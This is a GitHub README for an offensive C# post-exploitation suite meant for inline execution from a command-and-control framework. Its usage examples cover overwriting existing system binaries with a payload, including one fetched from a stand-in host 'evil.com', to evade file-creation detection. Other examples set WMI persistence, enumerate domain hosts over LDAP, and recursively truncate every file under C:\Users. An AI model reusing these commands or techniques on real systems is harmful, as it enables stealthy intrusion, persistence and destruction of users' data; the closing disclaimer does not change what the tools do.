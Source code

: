 <div align="center">
	<img src="https://github.com/MrR4tC4k3/SharpC4k3s/blob/90aed9430f5944f569a7e0a0c2caf2a1a47c7b37/examples/SHARPCAKES.png">
</div>
<div align="center">
	Welcome to SharpC4k3s
</div>
<br>

## Tool Suite
- **HollowNGo**
- **GhostGrip WMI**
- **Host2IP**
-  **NibbleNibble**

The SharpC4k3 Suite was designed to be executed inline, however like any C# Program they be used standalone also. All Tools leverage .Net v2 to ensure compatibility with target hosts.

## HollowNGO
HollowNGo aims to avoid FileCreation Events by utilising and hijacking files that already exist on disk. This is achieved by reading your payload as a compressed byte array and converting it to base64 which is then stored in a memorysteam. HollowNGo then sets the target file stream length to 0, and using the orignal encoding operation in reverse, writes to the target file. There are a few options when running the tool as shown below. Note that creating the encoded binary data locally (-encode) it is expected to run on your dev box not the target.

#### Create compressed encoded binary data
**Usage:** HollowNGo.exe -encode <source.exe> -output <output.txt>
- **Example:** HollowNGo.exe C:\Users\User\Documents\MyEvil.Exe -output EvilB64.txt

#### Via data output from -encode option
**Usage:** HollowNGo.exe -source <base64_content> -target <target.exe>
- **Example:** dotnet inline-execute HollowNGo.exe -sourcelocal <EvilB64.Code> -target C:\Windows\System32\calc.exe

#### Via remote hosted file
**Usage:** UsageHollowNGo.exe -sourceremote <SourceURI> -target <target.exe>
- **Example:** dotnet inline-execute HollowNGo.exe -sourceremote http://evil.com/payload.exe -target C:\Windows\System32\calc.exe
<div align="center">
	<img src="https://github.com/MrR4tC4k3/SharpC4k3s/blob/c674b6dd870ddc8f4c7601b8d9e18f0feec36381/examples/HollowNGo.png">
</div>
<div align="center">
	HollowNGo Havoc example
</div>
<br>

## GhostGrip WMI
GhostGrip WMI aims to simplify the process of setting WMI persistence on your target with easy to use flag options. Ghost Grip WMI creates a WMIEventSubscription based on your prefered event for persistence as well as its execution method. Use HollowNGo prior to set up your executable to avoid FileCreation Events.

**Usage:** GhostGrip_WMI.exe -location <path_to_executable> -type <time/logon/eventcode> -execution <executiontype> -randomizename <true/false>
- **Example:** dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type eventcode -eventcode 4726 -execution direct -randomizename true
- **Example:** dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type logon -execution invoke-wmimethod -randomizename false
<div align="center">
	<img src="https://github.com/MrR4tC4k3/SharpC4k3s/blob/77242f2d974647427e6df74a15df5de9512e4070/examples/GhostGrip_WMI.png">
</div>
<div align="center">
	GhostGrip WMI Havoc example
</div>
<br>

## Host2IP
Host2IP aims to be a little less noisy than the traditional SMB/ICMP scans to find hosts within a domain environment. Host2IP uses LDAP queries to generate a list of hostnames, the list is then resolved via DNS. This can be achieved via -mode flag with slow/fast options to control the network traffic rate. If your current process does not have not have the correct domain priviliges you will have to provide credentials.

**Usage:** Host2IP.exe -domain <domain_name> -mode <fast/slow> -auth <true/false> -user <username> -password <password>
- **Example:** dotnet inline-execute Host2IP.exe -domain target.local -mode fast -auth false
- **Example:** dotnet inline-execute Host2IP.exe -domain target.locol -mode slow -auth true -user TheRat -password pass123!
<div align="center">
	<img src="https://github.com/MrR4tC4k3/SharpC4k3s/blob/64cd688e35ab726ded7a11669a85463f3dfbd857/examples/Host2IP.png">
</div>
<div align="center">
	Host2IP Havoc example
</div>
<br>

## NibbleNibble
A somewhat pointless tool, NibbleNibble simply recursively sets target files stream length to 0 from a given directory path.

**Usage:** NibbleNibble.exe -path <TargetStartPath>
- **Example:** dotnet inline-execute NibbleNibble.exe -path C:\Users

### **Disclaimer:** These tools are not to be used for any unauthorized activity :)
